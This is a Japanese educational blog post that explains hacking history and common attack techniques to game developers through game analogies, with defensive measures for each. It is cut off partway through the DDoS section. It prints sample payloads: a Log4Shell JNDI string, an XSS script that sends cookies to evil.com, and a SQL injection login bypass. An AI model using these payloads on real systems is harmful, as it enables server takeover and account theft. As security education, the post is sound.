







[](https://hits.sh/epheria.github.io/posts/SecurityHacking01/)

## 序論

ゲーム開発者ならグリッチ(glitch)とエクスプロイト(exploit)という言葉に慣れているだろう。壁を突き抜けて通り過ぎるスピードラン技法、インベントリ複製バグ、メモリ操作による無限体力。これらすべてはゲームが **意図しない方式で動作するようにさせる技術** だ。そしてこれこそがハッキングの本質である。

セキュリティ(Security)という言葉を聞くと、大部分「私とは関係ない分野」と考えがちだ。しかしゲーム開発者こそセキュリティの最前線に立っている人々だ。ゲームサーバーは数百万の同時接続者を耐えなければならず、クライアント-サーバー通信は常に改ざんの危険に露出しており、チーター(cheater)たちは絶えず新しい攻撃ベクトルを探し出す。

このシリーズは **ゲーム開発者の視角** でサイバーセキュリティの核心を貫く2編構成の記事だ。1編では攻撃者の観点でハッキングの歴史と技法を解剖し、2編では防御者の観点でセキュリティの原理と実戦技術を扱う。

| 編 | タイトル | 核心テーマ |
|---|------|----------|
| 1編 (本文) | 戦場の霧 | ハッキングの歴史、攻撃技法7種解剖 |
| 2編 | 盾の技術 | アンチチート、サイバーセキュリティ、AIセキュリティ |

敵を知ってこそ防ぐことができる。まず **戦場の霧** の中に入ってみよう。

---

## Part 1: ハッキングとは何か

### ハッキングの定義

> **ハッキング(Hacking)とはシステムが意図しない方式で動作するようにさせる技術だ。**

この定義をゲームに代入すると驚くほどよく当てはまる。スピードランで壁抜けグリッチを使うのは開発者が意図しない経路で目標地点に到達する行為だ。インベントリ複製バグを利用するのはアイテムシステムの設計欠陥を悪用することだ。メモリを直接編集して体力を無限にするのはプログラムのランタイム状態を任意に操作することだ。

ハッキングの語源は1960年代MITのモデル鉄道クラブ(Tech Model Railroad Club)まで遡る。当時「ハッキング」という単語は **創意的な問題解決**、つまり既存のルールや方法論に縛られず賢くシステムを扱う行為を意味した。電話システムを操作していた初期ハッカーたち(Phone Phreakers)も好奇心と探求心から始めたのであり、最初から犯罪を目的としてはいなかった。

重要なのは **ハッキング自体は犯罪ではないという点** だ。ハッキングは技術であり、その技術をどんな意図で使うかによってセキュリティ研究にもなりサイバー犯罪にもなり得る。まるで包丁が料理道具にもなり武器にもなり得るのと同じだ。

### ハッカーの分類

ハッカーはその意図と活動領域によって大きく三つに分類される。ゲームの比喩を添えれば理解がはるかに容易になる。

- **ホワイトハット(White Hat)**: 合法的にシステムの脆弱性を探して報告するセキュリティ専門家だ。ゲームで言えば **QAテスター** と同じだ。バグを探すが悪用せず開発チームに報告して修正を助ける。

- **グレーハット(Grey Hat)**: 法的境界線上で活動するハッカーだ。報奨金のために脆弱性を発見したり、時には許可なくシステムをテストしたりもする。ゲームで言えば **スピードランナー** と類似している。グリッチを発見すれば公開してコミュニティに知らせるが、それがゲーム経済を壊すこともある。

- **ブラックハット(Black Hat)**: 悪意ある目的でシステムに侵入するサイバー犯罪者だ。ゲームで言えば **チーター** だ。ハック(hack)を使って他のプレイヤーの経験を台無しにし、ゲーム経済を破壊し、自分だけの利益を追求する。



現実でこの境界は思ったより曖昧だ。バグバウンティ(Bug Bounty)プログラムが活性化し、グレーハット領域にいた多くのハッカーたちがホワイトハットに転換している。Google、Microsoft、Appleなど大型企業は脆弱性を発見すれば数千ドルから数十万ドルの報奨金を支給する。ゲーム会社も同様だ。Valve、Riot Games、Epic Gamesなどは独自のバグバウンティプログラムを運営しセキュリティ研究者たちの寄与を奨励している。

---

## Part 2: 有名ハッキング事件分析 -- サイバー戦場の記録

歴史を知らなければ同じミスを繰り返す。このセクションではサイバーセキュリティの歴史の転換点となった主要事件を分析する。各事件をゲーム開発者の観点で比喩して解釈すれば、攻撃のパターンと原理がはるかに明確に見えるだろう。

### 1. モリスワーム (1988) -- インターネット初の大規模感染

**背景**: 1988年11月2日、コーネル大大学院生ロバート・タパン・モリス(Robert Tappan Morris)はインターネットに接続されたコンピュータの規模を測定するためのプログラムを作成した。このプログラムはUnixシステムの既知の脆弱性(sendmail, fingerd, rsh/rexec)を利用して他のコンピュータに自己自身を複製するように設計された。

問題は **自己複製の制御メカニズムに致命的な欠陥** があったことだ。モリスは既に感染したシステムに対する重複感染を防止するために、ワームが既存プロセスの存在を確認するように設計した。しかし管理者が偽プロセスでワームを騙すことを懸念して、確認結果に関係なく **7分の1の確率で無条件再感染** するようにコードを作成した。

**ゲーム比喩**: これは **「発売初日の無限複製バグ」** と正確に同じだ。MMORPGでモンスターを倒せば2匹が新しく生成されるバグを想像してみろ。最初は一二匹で始まるが、幾何級数的に増加してサーバーが耐えられなくなる。モリスワームも同一のパターンに従った。一つのシステムにワームのコピーが数十、数百個ずつ実行されCPUとメモリを使い果たした。



**被害**: 当時インターネットに接続された約60,000台のコンピュータのうち約6,000台(約10%)が感染した。感染したシステムは極度の性能低下を経験し、多くのシステムが完全に止まった。被害復旧費用は数百万ドルに達した。

**教訓**: この事件は二つの重要な結果を生んだ。第一に、米国防総省傘下に **CERT(Computer Emergency Response Team)** が設立されサイバーセキュリティ事故に対する体系的な対応体制が整えられた。第二に、**「意図しない再帰」の危険性** が全世界に知られた。モリス自身は悪意ある意図がなかったと主張したが、結果的にインターネット歴史上初の大規模セキュリティ事故を起こした。彼はコンピュータ詐欺及び濫用に関する法律(CFAA)違反で有罪判決を受けた最初の人物になった。

### 2. ソーラーウィンズサプライチェーン攻撃 (2020) -- 公式パッチに隠したバックドア

**背景**: 2020年12月、セキュリティ企業FireEyeは自社システムが浸透されたことを発見した。調査過程で攻撃の進入経路が明らかになったが、それは驚くべきことに **SolarWinds Orion** というITモニタリングソフトウェアの **公式アップデート** だった。

攻撃者(ロシア情報機関SVR所属と推定されるAPT29/Cozy Bear)はSolarWindsのビルドシステムに浸透して、ソフトウェアのビルド過程に悪性コードを挿入した。このように変調されたアップデートはSolarWindsの公式デジタル署名が適用されたまま配布されたため、初期に大部分のセキュリティソリューションがこれを探知できなかった。

**ゲーム比喩**: これは **「公式パッチにチートコードが含まれたこと」** と同じだ。SteamやPlayStation Storeを通じて公式ゲームアップデートを受け取ったが、そのアップデートの中に誰かがバックドアを植えておいたのだ。プレイヤー立場では公式チャンネルを通じて受け取ったものなので疑う理由が全くない。



**被害**: SolarWinds Orionを使用する約18,000個の組織が悪性アップデートをインストールした。その中には米国防総省、財務省、商務省、国土安全保障省など核心政府機関とMicrosoft、Intel、CiscoなどFortune 500企業が含まれていた。攻撃者は約9ヶ月間探知されないままこれらのシステム内部を歩き回った。

**教訓**: この事件は **サプライチェーン(Supply Chain)信頼の脆弱性** を赤裸々に現した。いくら自体セキュリティが完璧でも、依存するソフトウェアのサプライチェーンが突き破られればすべてが崩れる。ゲーム開発でも同様だ。サードパーティSDK、ミドルウェア、アセットストアのプラグイン -- 私たちが信頼して使用するすべての外部依存性は潜在的な攻撃ベクトルになり得る。

### 3. Log4Shell (2021) -- Minecraftで始まったゼロデイ

**背景**: 2021年12月、Apache Log4jライブラリで致命的な脆弱性(CVE-2021-44228)が発見された。Log4jはJavaエコシステムで最も広く使用されるロギングライブラリで、数十億個のデバイスで実行されていた。

問題の核心はLog4jの **JNDI(Java Naming and Directory Interface) Lookup** 機能だった。この機能はログメッセージの中に含まれた特定パターンの文字列を自動的に解釈して、外部サーバーからJavaクラスをロードして実行することができた。

**ゲーム比喩**: これは単純な比喩ではなく **実際にMinecraftで発生した事件** だ。MinecraftサーバーはJavaで動作しLog4jを使用する。プレイヤーがゲーム内チャット欄に次のような文字列を入力すると：

```
${jndi:ldap://evil.com/exploit}
```

サーバーがこの文字列をログに記録する瞬間、Log4jがJNDI Lookupを実行して攻撃者のサーバーから悪性コードをダウンロードして実行した。**チャットメッセージ一つでサーバー全体を掌握** することができたのだ。



**CVSS点数**: 10.0 (最高危険度)。CVSS(Common Vulnerability Scoring System)で10.0は「遠隔で認証なしに容易に悪用可能であり、完全なシステム掌握が可能」だということを意味する。

**教訓**: Log4Shellは **ライブラリ依存性の危険** を劇的に見せた。大部分の開発者は自分のプロジェクトにLog4jが含まれているという事実さえ知らなかった。直接使用しなくても、使用するフレームワークやライブラリが内部的にLog4jに依存していたからだ。ゲーム開発でも同一の問題が存在する。私たちが使用する数多くのミドルウェアとSDK内部にどんなライブラリが隠れているのか、そしてそのライブラリにどんな脆弱性があるのか完璧に把握することはほぼ不可能に近い。

### サイバーセキュリティ事件年表

上の三つの事件以外にも、サイバーセキュリティ歴史には重要な転換点となった事件が多数存在する。下の年表は核心事件を整理したものだ。

| 年度 | 事件 | 類型 | ゲーム比喩 | 影響 |
|------|------|------|----------|------|
| 1988 | モリスワーム | 自己複製 | 無限複製バグ | CERT設立契機 |
| 2010 | スタックスネット | 国家サイバー兵器 | 特定ボスだけ攻撃するチート | イラン遠心分離機破壊 |
| 2017 | WannaCry | ランサムウェア | インベントリロック後身代金要求 | 150カ国30万台感染 |
| 2020 | ソーラーウィンズ | サプライチェーン攻撃 | 公式パッチにバックドア | 米政府機関浸透 |
| 2021 | Log4Shell | ゼロデイ | チャット欄サーバーハッキング | CVSS 10.0 |
| 2021 | Kaseya | サプライチェーン+ランサムウェア | MSPを通じた連鎖攻撃 | 1,500個企業被害 |
| 2023 | MOVEit | ゼロデイ | ファイル転送脆弱性 | 2,500個組織データ流出 |
| 2024 | CrowdStrike | アップデート欠陥 | アンチチートがゲームをクラッシュ | 全世界ブルースクリーン |

この年表で注目すべきパターンがある。時間が流れるほど攻撃の規模と精巧さが幾何級数的に増加しており、**サプライチェーン攻撃(Supply Chain Attack)** がますます核心的な脅威として浮上しているということだ。

---

## Part 3: ハッキング技法総整理 -- 攻撃者の武器庫


今から現代サイバーセキュリティで最も重要な7つの攻撃技法を解剖する。各技法は同一の構造で説明する：一行要約、ゲーム比喩、詳細原理、実際事例、簡略防御法。

### 1. SQL Injection -- チャット欄にチートコードを入力する

> **一行要約**: データベースクエリに悪意的なSQLコードを挿入して認証迂回、データ奪取、データ操作を実行する攻撃

**ゲーム比喩**: MMORPGチャット欄に `/give gold 99999` を入力したら実際にゴールドが生じる状況を想像してみろ。開発者はチャット欄に一般的なテキストだけ入力されるだろうと仮定したが、攻撃者はシステムが解釈する **命令語** を入力したのだ。SQL Injectionも正確に同じ原理だ。Webアプリケーションがユーザー入力をSQLクエリの一部として直接挿入するとき、攻撃者は入力値にSQLコードを含ませてデータベースを勝手に操作する。

#### 詳細原理

一般的なログイン過程でサーバーは次のようなSQLクエリを実行する：

```sql
SELECT * FROM users WHERE username = '入力したID' AND password = '入力したパスワード'
```

攻撃者がIDフィールドに `' OR '1'='1' --` を入力すると、クエリは次のように変調される：

```sql
-- 脆弱なクエリ (ユーザー入力を直接挿入)
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'なんでも'

-- 攻撃者入力: ' OR '1'='1' --
-- 結果: すべてのユーザーデータ返還！
```

ここで `--` はSQLの注釈記号なので、その後ろのパスワード検証部分は完全に無視される。`'1'='1'` は常に真(true)なので、結果的にテーブルのすべての行が返還される。

安全なコードは **Parameterized Query(パラメータ化されたクエリ)** を使用して入力値をコードではなくデータとして処理する：

```sql
-- 安全なクエリ (Parameterized Query)
SELECT * FROM users WHERE username = ? AND password = ?
-- 入力値がコードではなくデータとして処理される
```

この方式では攻撃者がどんな文字列を入力しようが、それはSQL命令語として解釈されず純粋な文字列データとしてのみ扱われる。

#### SQL Injectionの変形

SQL Injectionは単純な認証迂回を超えて多様な変形が存在する：

- **Union-based**: `UNION SELECT` 構文を挿入して他のテーブルのデータを一緒に照会
- **Blind SQL Injection**: クエリ結果が直接表示されないとき、真/偽応答の差を観察してデータを一文字ずつ抽出
- **Time-based Blind**: 応答時間の差(`SLEEP` 関数など)を利用して情報を抽出
- **Second-order**: 直ちに実行されず、後で他のクエリで使用されるとき実行される遅延型攻撃

**実際事例**: 2008年Heartland Payment SystemsハッキングはSQL Injectionを通じて約1億3千万件のクレジットカード情報が流出した歴史上最大規模のデータ侵害事件の一つだった。攻撃者Albert Gonzalezは懲役20年を宣告された。

**簡略防御法**:
- Parameterized QueryまたはORM(Object-Relational Mapping)使用
- 入力値検証(Validation)及びエスケープ(Escape)処理
- 最小権限原則(Principle of Least Privilege)でデータベースアカウント設定
- WAF(Web Application Firewall)配布

### 2. XSS (Cross-Site Scripting) -- 他のプレイヤー画面に偽UIを表示させる

> **一行要約**: Webページに悪性スクリプトを注入して他のユーザーのブラウザで実行させる攻撃

**ゲーム比喩**: 他のプレイヤーのHUD(Head-Up Display)に偽の「パスワードを入力してください」ポップアップを表示させるのと同じだ。被害者はこれがゲームの公式UIなのか、攻撃者が挿入した偽UIなのか区別できない。なぜなら偽UIもゲームクライアントの中で実行されるからだ。XSSも同一だ。攻撃者が挿入したスクリプトは **該当ウェブサイトのコンテキストの中で** 実行されるので、ブラウザはこれを該当サイトの正常なコードとして扱う。

#### 3つの類型

**Stored XSS (保存型)**: 最も危険な類型だ。攻撃者が掲示板、コメント、プロフィールなどに悪性スクリプトを保存する。そのページを訪問する **すべてのユーザー** にスクリプトが実行される。ゲームで言えば、ギルド掲示板に上げた文がそれを読むすべてのギルド員のクライアントで悪性コードを実行することだ。

**Reflected XSS (反射型)**: URLのパラメータにスクリプトを挿入して、該当リンクをクリックしたユーザーにだけ実行される。例えば、`https://example.com/search?q=<script>alert('XSS')</script>` といったURLを被害者に送れば、検索結果ページでスクリプトが実行される。

**DOM-based XSS**: サーバーではなくクライアント側JavaScriptがURLやユーザー入力を不安全に処理するとき発生する。サーバー応答には悪性コードが含まれていないが、クライアントのJavaScriptが動的にページを操作する過程で悪性コードが実行される。

#### コード例示

```html
<!-- 攻撃者が掲示板に作成したコメント -->
<script>
  // クッキー奪取 → 攻撃者サーバーへ転送
  new Image().src = "https://evil.com/steal?c=" + document.cookie;
</script>
```

上スクリプトが含まれたコメントを他のユーザーが読めば、そのユーザーのブラウザでスクリプトが実行される。`document.cookie` にはセッショントークンが含まれている可能性があり、これが攻撃者のサーバーに転送されれば攻撃者は被害者のセッションを奪取して該当ユーザーでログインできる。



**実際事例**: 2005年MySpaceで発生した **Samyワーム** はXSS歴史上最も有名な事件だ。19歳のSamy Kamkarが作成したJavaScriptワームはプロフィールを訪問するすべてのユーザーを自動的に友達追加し、該当ユーザーのプロフィールにも同一のワームをコピーした。**24時間で100万人以上が感染** してMySpaceは全体サービスを中断しなければならなかった。

**簡略防御法**:
- 出力エンコーディング(Output Encoding): HTMLエンティティ、JavaScriptエスケープなど
- CSP(Content Security Policy): ブラウザに許可されたスクリプト出処を明示
- HttpOnlyクッキー: JavaScriptからクッキーにアクセスできないように設定
- 入力検証及びsanitization

### 3. Buffer Overflow -- インベントリスロットを溢れさせてステータスを変調する

> **一行要約**: プログラムのメモリバッファサイズを超過するデータを入力して隣接メモリを上書きしプログラム実行フローを変調する攻撃

**ゲーム比喩**: キャラクターのインベントリが10枠だと仮定しよう。メモリ構造上、インベントリのすぐ次にキャラクターのステータス（攻撃力、防御力、体力）が保存されている。もし11番目のアイテムを強制的に入れることができれば、そのデータはインベントリ領域を超えてステータス領域を上書きすることになる。攻撃者はこの原理を利用して望む値（例：攻撃力99999）を正確な位置に記録できる。

#### 詳細原理

プログラムが関数を呼び出すと、スタック(Stack)メモリにローカル変数、保存されたフレームポインタ(Saved EBP)、そして **リターンアドレス(Return Address)** が順序通り保存される。リターンアドレスは現在関数が終わった後 **次に実行する命令語の位置** を指す。

バッファオーバーフロー攻撃はローカルバッファに設計されたサイズより大きいデータを入力して、スタック上位領域のリターンアドレスを攻撃者が望むアドレスで上書きする。関数が返還されるとき、プログラムは元の実行地点ではない **攻撃者が指定したアドレスのコードを実行** することになる。

```
 正常状態                      オーバーフロー後
┌──────────────┐              ┌──────────────┐
│  Return Addr │  ←────────   │  0xDEADBEEF  │ ← 攻撃者コードアドレス！
├──────────────┤              ├──────────────┤
│  Saved EBP   │              │  AAAAAAAAAA  │ ← 上書きされる
├──────────────┤              ├──────────────┤
│  Buffer[16]  │              │  AAAAAAAAAA  │ ← 入力データ
│  "Hello"     │              │  AAAAAAAAAA  │
└──────────────┘              └──────────────┘
  ↑ スタック成長方向               ↑ 溢れる！
```

#### 脆弱なコード

```c
void vulnerable(char *input) {
    char buffer[16];          // 16バイトバッファ
    strcpy(buffer, input);    // 長さチェックなしでコピー！
    // inputが16バイトを超過すれば → リターンアドレス上書き
}
```

`strcpy` 関数はソース文字列の長さを確認せずそのままコピーする。`input` が16バイトを超過すれば、`buffer` 領域を超えてSaved EBPとReturn Addressを上書きすることになる。これがバッファオーバーフローの核心だ。

#### なぜゲーム開発者に重要か

ゲームはC/C++で開発される場合が多い。特にUnreal Engine、カスタムゲームエンジン、ネイティブプラグインなどで手動メモリ管理を実行するコードはバッファオーバーフローに脆弱であり得る。ゲームサーバーでこの脆弱性が存在すれば、クライアントが送ったパケットでサーバーの実行フローを掌握することが可能だ。

**実際事例**: 1988年モリスワームはUnixの `fingerd` サービスのバッファオーバーフローを利用した。2003年 **SQL Slammer** ワームはMicrosoft SQL Serverのバッファオーバーフローを通じて10分で全世界75,000台のサーバーを感染させた。376バイトサイズの単一UDPパケットが全てだった。

**簡略防御法**:
- ASLR(Address Space Layout Randomization): メモリアドレスを無作為化して攻撃者が正確なアドレスを知れないようにする
- DEP/NX(Data Execution Prevention / No-Execute): データ領域のコード実行を遮断
- Stack Canaries: リターンアドレスの前にランダム値を配置して上書きを探知
- 安全な関数使用: `strcpy` 代わりに `strncpy`、`gets` 代わりに `fgets`

### 4. Man-in-the-Middle (MitM) -- ボイスチャットを盗聴して操作する

> **一行要約**: 通信する二当事者の間にこっそり割り込んでメッセージを盗聴したり変調したりする攻撃

**ゲーム比喩**: ギルド員AとBがパーティボイスチャットでレイド戦略を論議している。ところが誰かがそのボイスチャット中間にこっそり割り込んで対話を全部聞いている。さらに、Aが「右に行こう」と言ったのをBには「左に行こう」に変えて伝達する。二人とも相手と直接対話していると思っているが、実際には攻撃者を経由して通信しているのだ。

#### 詳細原理

MitM攻撃の核心は **通信経路の掌握** だ。攻撃者は多様な方法で二当事者間に自分を位置させる：

- **ARP Spoofing**: ローカルネットワークでARP(Address Resolution Protocol)テーブルを操作してトラフィックを自分を経由するようにリダイレクト
- **DNS Spoofing**: DNS応答を偽造して被害者を偽サーバーに誘導
- **Wi-Fi 盗聴**: 公開Wi-Fiで暗号化されていないトラフィックを傍受
- **SSL Stripping**: HTTPS連結をHTTPにダウングレードして暗号化を無力化



**実際事例**: 2015年Lenovoは自社ノートパソコンに **Superfish** というアドウェアを事前インストールした。このソフトウェアはHTTPSトラフィックを傍受するために **独自ルート証明書** をシステムにインストールした。これは本質的にすべてのHTTPS通信に対するMitM攻撃を可能にした。さらに深刻な問題はSuperfishの証明書個人鍵がすべてのLenovoノートパソコンで同一であり、この鍵が抽出され公開されて該当ノートパソコンを使用する **すべてのユーザーのHTTPS通信** が危険に露出したということだ。

**簡略防御法**:
- HTTPS/TLS: 通信暗号化で盗聴及び変調防止
- 証明書ピニング(Certificate Pinning): 特定証明書だけ信頼するように固定
- HSTS(HTTP Strict Transport Security): ブラウザが常にHTTPSを使うように強制
- VPN使用: 公開ネットワークでの通信保護

### 5. DDoS (Distributed Denial of Service) -- ボット100万人を同時接続させる

> **一行要約**: 大量のトラフィックでサーバーやネットワークを過負荷にさせ正常なサービスを妨害する攻撃

**ゲーム比喩**: WoW(World of Warcraft)拡張パック発売日に100万人のボットが同時に接続してサーバーをダウンさせることを想像してみろ。拡張パック発売日のサーバー暴走は意図しないものだが、DDoSはこれを **意図的に** 起こす攻撃だ。正常なプレイヤーたちは接続できなくなり、サービスは麻痺する。



#### DDoS類型

DDoS攻撃はOSIモデルの階層によって大きく三つに分類される：

**ボリューム攻撃 (Volume-based Attacks)**: 目標サーバーの **帯域幅** を枯渇させる攻撃だ。UDP Flood、DNS Amplification、NTP Amplificationなどがある。特にAmplification(増幅)攻撃は小さい要請で大きい応答を誘発するプロトコルの特性を悪用する。例えば、DNS Amplificationで攻撃者は出発地IPを被害者のIPに偽造してDNSサーバーに質疑を送れば、DNSサーバーが被害者に数十倍に増幅された応答を転送する。

